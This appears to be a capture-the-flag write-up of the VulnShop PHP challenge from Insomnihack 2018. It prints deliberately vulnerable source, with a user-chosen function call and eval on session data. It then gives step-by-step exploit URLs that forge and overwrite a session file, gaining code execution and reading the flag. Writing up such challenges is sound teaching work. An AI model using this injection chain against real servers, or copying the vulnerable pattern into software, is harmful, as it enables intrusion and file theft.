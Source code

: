 # VulnShop

VulnShop was a web challenge in the Insomnihack 2018 teaser. It was solved by [SIben](https://twitter.com/_SIben_), nodauf and [Geluchat](https://twitter.com/Geluchat) (*khack40*) for Inshall'hack. While it ended up being the most flagged challenge of the CTF (apart from the warmup, of course), it was an interesting lesson.

## Challenge description

```
We're preparing a website for selling some important vulnerabilities in the future. You can browse some static pages on it, waiting for the official release.

http://vulnshop.teaser.insomnihack.ch
```

## Source code

The link leads to a page containing two interesting links: one to the source code of the page, and the other to the phpinfo output for the server.

The source code was the following:

```php
<?php if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; }
    error_reporting(0); session_start(); 
    // Anti XSS filter
    $_REQUEST = array_map("strip_tags", $_REQUEST);
    // For later, when we will store infos about visitors.
    chdir("tmp");
?>
<!DOCTYPE html>
<html>
    <head>
        <title>Work in progress...</title>
        <meta charset="utf-8" />
        <meta http-equiv="content-type" content="text/html; charset=utf-8" />
        <style>
            body {
                background-color: #aaa;
                color:#fff;
            }
            
            .page {
                width: 50%;
                margin: 0 auto;
                margin-top: 75px;
            }
            
            
            .menu ul li {
                display:inline-block;
                vertical-align:top;
                margin-right: 30px;
                
            }
        </style>
    </head>
    <body>
        <div class="page">
            <div class="menu">
                <ul>
                    <li><a href="?page=default">Home</a></li>
                    <li><a href="?page=introduction">Introduction</a></li>
                    <li><a href="?page=privacy">Privacy</a></li>
                    <li><a href="?page=contactus">Contact</a></li>
                </ul>
            </div>
            
            <div class="content">
                <?php
                        switch($_GET['page']) {
                            case 'default':
                            default:
                                echo "<p>Welcome to our website about infosec. It's still under construction, but you can begin to browse some pages!</p>";
                                break;
                            case 'introduction':
                                echo "<p>Our website will introduce some new vulnerabilities. Let's check it out later!</p>";
                                break;
                            case 'privacy':
                                echo "<p>This website is unbreakable, so don't worry when contacting us about some new vulnerabilities!</p>";
                                break;
                            case 'contactus':
                                echo "<p>You can't contact us for the moment, but it will be available later.</p>";
                                $_SESSION['challenge'] = rand(100000,999999);
                                break;
                            case 'captcha':
                                if(isset($_SESSION['challenge'])) echo $_SESSION['challenge'];
                                // Will make an image later
                touch($_SESSION['challenge']);
                                break;
                            case 'captcha-verify':
                // verification functions take a file for later, when we'll provide more way of verification
                                function verifyFromString($file, $response) {
                                    if($_SESSION['challenge'] === $response) return true;
                                    else return false;
                                }
                                
                                // Captcha from math op
                                function verifyFromMath($file, $response) {
                                    if(eval("return ".$_SESSION['challenge']." ;") === $response) return true;
                                    else return false;
                                }
                                if(isset($_REQUEST['answer']) && isset($_REQUEST['method']) && function_exists($_REQUEST['method'])){
                                    $_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
                                }
                                break;

                        }
                ?>
            </div>
        </div>
        <p><a href="/?hl">View code source of the file, to be sure we're secure!</a></p>
        <p><a href="/phpinfo.php">Show our configurations</a></p>
    </body>
</html>
```

## Angles of attack

Ugh. Lots of different page options. Two lines catch the eye immediately though:
```php
$_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
```

and

```php
if(eval("return ".$_SESSION['challenge']." ;") === $response) return true;
```

The **phpinfo()** information tells us that the exec-like functions are disabled. We notice that we are able to write arbitrary data to the file `./".$_SESSION['challenge']` using the first line highlighted above with `method` set to `file_put_contents` and `answer` set to whatever we want to write to the file.

The file `./".$_SESSION['challenge']` must be created first of course, which is done by first visiting the **contactus** page (`$_SESSION['challenge'] = rand(100000,999999);`) followed by the **captcha** page (`touch($_SESSION['challenge']);`).

However, the following line is executed at the beginning of the program:
```php
$_REQUEST = array_map("strip_tags", $_REQUEST);
```

We're therefore unable to write PHP code to a file, as we can not write the "<" character because of the filter.

The second line highlighted above seems very attractive all of a sudden, but it requires us to control the value of `$_SESSION['challenge']`.

## Modifying session data

In order to control the string passed to **eval**, we need to overwrite the session file with our payload. Fortunately, **phpinfo()** tells us that the session files are stored at `/var/lib/php/sessions`, which means that session **xxx** is stored at **/var/lib/php/sessions/sess_xxx**.

Here are the steps we need to follow:
1. Generate a valid session file containing our payload in `$_SESSION['challenge']`;
2. Write that payload to a file using **file_put_contents** and `$_REQUEST['method']("./".$_SESSION['challenge'],$_REQUEST['answer']);`;
3. Overwrite our session file with the file from the previous step;
4. Call the `verifyFromMath` function in order to trigger the **eval** and profit!

We're going to try to list the files on the server for a start.

### Step 1

The first step is achieved quite easily: in a PHP interpreter, we type the following lines:
```php
session_start();
$_SESSION['challenge'] = "var_dump(scandir($_GET['arg']))";
```
After closing the interpreter, we retrieve the contents of the session file:
`challenge|s:31:"var_dump(scandir($_GET['arg']))";`.

### Step 2

The second step is accomplished by visiting `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=file_put_contents&answer=challenge|s:31:"var_dump(scandir($_GET['arg']))";`.

### Step 3

In the third step, we check our cookie to find out what our session file's name is. Assuming its name is **xxx**, we visit the following link: `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=copy&answer=/var/lib/php/sessions/sess_xxx`.

### Step 4

The fourth step is basically just about gloating about how our awesome payload works, and actually using it:
we visit `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=verifyFromMath&answer=1&arg=/`.
We notice a file named **flag** at the root of the server. Wonder what it could be.

## Wrapping up

Now that we know which file to read, we go through our 4 steps again, with the payload `var_dump(file_get_contents($_GET['arg']))`, and the result is:

**string(39) "INS{4rb1tr4ry_func_c4ll_is_n0t_s0_fun} "**
